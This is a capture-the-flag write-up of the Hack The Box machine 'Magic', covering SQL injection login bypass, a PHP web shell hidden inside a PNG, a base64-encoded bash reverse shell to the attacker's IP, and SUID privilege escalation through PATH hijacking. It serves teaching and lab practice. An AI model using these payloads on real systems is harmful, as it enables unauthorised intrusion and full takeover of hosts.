

## Writeup of the medium machine Magic from Hack The Box

[](../images/htb_magic/Magic.png)

### Recon

Nmap scan

[](../images/htb_magic/nmap.png)

Just SSH and port 80.  Lets take a look at port 80.

### Web application

[](../images/htb_magic/login.png)

Had a look around and found the login page.  Tried the usual SQLI auth bypass attempts like `' OR 1=1 -- ` which didn't seem to grant me access.  But I did notice that the invalid username/password message did not appear when I entered such a bypass.  

I tried entering `' OR 1=2 -- '` and the error appeared.  Looks like boolean based blind SQL injection.  

I captured the login request in burp suite, right clicked it and saved to file. Then I pointed Sqlmap at it and it confirmed the vulnerability.

```bash
sqlmap -r text.req --batch
```

[](../images/htb_magic/sqlmap.png)

I enumerated the database and tables and then dumped the login table.

[](../images/htb_magic/creds.png)

I could then login to the website and was met with a file upload page.  

[](../images/htb_magic/fileupload.png)


### Initial foothold

I figured I could upload some kind of php code to get command execution but the file upload was only allowing me to upload images.  Then I came across this really interesting article:

[https://techyzilla.blogspot.com/2012/07/injecting-malicious-php-in-to-an-image-file.html](https://techyzilla.blogspot.com/2012/07/injecting-malicious-php-in-to-an-image-file.html)

It talks you through injecting php code into an image which then can be uploaded to gain code execution.  

I used the following code:

PHP script for command execution:

```php
<?php echo "<pre>"; system($_GET['cmd']); ?>
```

Python script to embed the PHP code in an image.

```python
lavender = open ('404.png','rb').read()
lavender += open ('cmd.php','rb').read()
open ('newphp.php','wb').write(lavender)
```

Upon attempting to upload the newphp.png obviously it didn't get me code execution.  But upon changing the filename to be `newphp.php.png` worked and would allow me to get code execution.

[](../images/htb_magic/imgcodeinject.png)

[](../images/htb_magic/shellupload.png)

Then browsing to the location where it was uploaded and appending `?cmd=<command>` I had command execution:

[](../images/htb_magic/commandinjection.png)

I tried a couple of reverse shell scripts which did not get me a reverse shell.  So to avoid any weird special character issues I base64 encoded a bash reverse shell, piped it to base64 decode and then piped it to bash:

```bash
10.10.10.185/images/uploads/newphp.php.png?cmd=echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNDMvOTAwMSAwPiYxCg== | base64 -d | bash
```

[](../images/htb_magic/revshell.png)

### User

So I had a shell as www-data and I could see the user theseus but couldn't read user.txt.  I always like to try credentials I already have with a new user, as we know how often people like to re-use credentials.

[](../images/htb_magic/su.png)

I now had the user flag.  I checked if theseus could issue sudo commands, but they could not.  

[](../images/htb_magic/user.png)

### Root

I did some manual enumeration and then ran linpeas and noticed this unusual binary:

[](../images/htb_magic/linpeassysinfo.png)

Upon running it, it printed out system information.  But I could see it was set as SUID which means I could possibly exploit it somehow.  I knew it was running some other binary when it was ran so I uploaded pspy to the machine and watched the processes as I triggered the sysinfo binary. 

[](../images/htb_magic/pspyfdisk.png)

Interesting it is running fdisk without a full path.  We can exploit this via relative path hijacking [https://medium.com/r3d-buck3t/hijacking-relative-paths-in-suid-programs-fed804694e6e](https://medium.com/r3d-buck3t/hijacking-relative-paths-in-suid-programs-fed804694e6e)

```bash
cd /dev/shm
touch fdisk
```

Then in the fdisk file I created I added:

```bash
#!/bin/bash

cp /bin/bash /tmp/bash
chmod u+s /tmp/bash
```

Then set the new fdisk file as executable and added the current location to the $PATH

```bash
chmod +x fdisk
export PATH=$(pwd):$PATH
```

Now after running the sysinfo binary again I checked in /tmp

[](../images/htb_magic/suidbash.png)

Now time to get root

```bash
cd /tmp
./bash -p
```

[](../images/htb_magic/root.png)

That was the box, I really enjoyed it as each step was quite logical and didn't really require any guessing like you get in some ctf'y type boxes.  It also covered SQL injection, file upload vulnerabilities, password re-use and relative path hijacking.  Which are all great exploits/exploit paths to understand and utilise. 

Thanks for taking the time to read this and I will be continuing to add more HTB machine writeups in the near future. 
